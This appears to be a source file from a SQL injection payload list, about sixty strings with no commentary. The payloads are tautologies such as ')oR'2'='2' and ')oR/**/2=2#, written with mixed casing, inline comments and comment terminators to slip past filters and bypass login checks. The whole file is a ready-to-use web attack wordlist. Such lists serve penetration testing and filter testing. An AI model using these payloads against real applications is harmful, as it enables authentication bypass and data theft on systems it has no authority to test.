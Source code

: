 ```
"||"2"LiKE"2"/*
"||"2"LiKE"2"||"
"||(2)LiKE(2)-- 2
"||(2)LiKE(2)#
"||(2)LiKE(2)/*
"||(2)LiKE(2)||"
')oR('2
')oR'2'-- 2
')oR'2'#
')oR'2'/*
')oR'2'oR('
')oR(2)-- 2
')oR(2)#
')oR(2)/*
')oR(2)oR('
')oR 2-- 2
')oR 2#
')oR 2/*
')oR 2 oR('
')oR/**/2-- 2
')oR/**/2#
')oR/**/2/*
')oR/**/2/**/oR('
")oR("2
")oR"2"-- 2
")oR"2"#
")oR"2"/*
")oR"2"oR("
")oR(2)-- 2
")oR(2)#
")oR(2)/*
")oR(2)oR("
")oR 2-- 2
")oR 2#
")oR 2/*
")oR 2 oR("
")oR/**/2-- 2
")oR/**/2#
")oR/**/2/*
")oR/**/2/**/oR("
')oR'2'=('2
')oR'2'='2'oR('
')oR'2'='2'-- 2
')oR'2'='2'#
')oR'2'='2'/*
')oR 2=2-- 2
')oR 2=2#
')oR 2=2/*
')oR 2=2 oR('
')oR/**/2=2-- 2
')oR/**/2=2#
')oR/**/2=2/*
')oR/**/2=2/**/oR('
')oR(2)=2-- 2
')oR(2)=2#
')oR(2)=2/*
')oR(2)=(2)oR('
')oR'2'='2' LimIT 1-- 2
')oR'2'='2' LimIT 1#
')oR'2'='2' LimIT 1/*
')oR(2)=(2)LimIT(1)-- 2
')oR(2)=(2)LimIT(1)#
')oR(2)=(2)LimIT(1)/*
```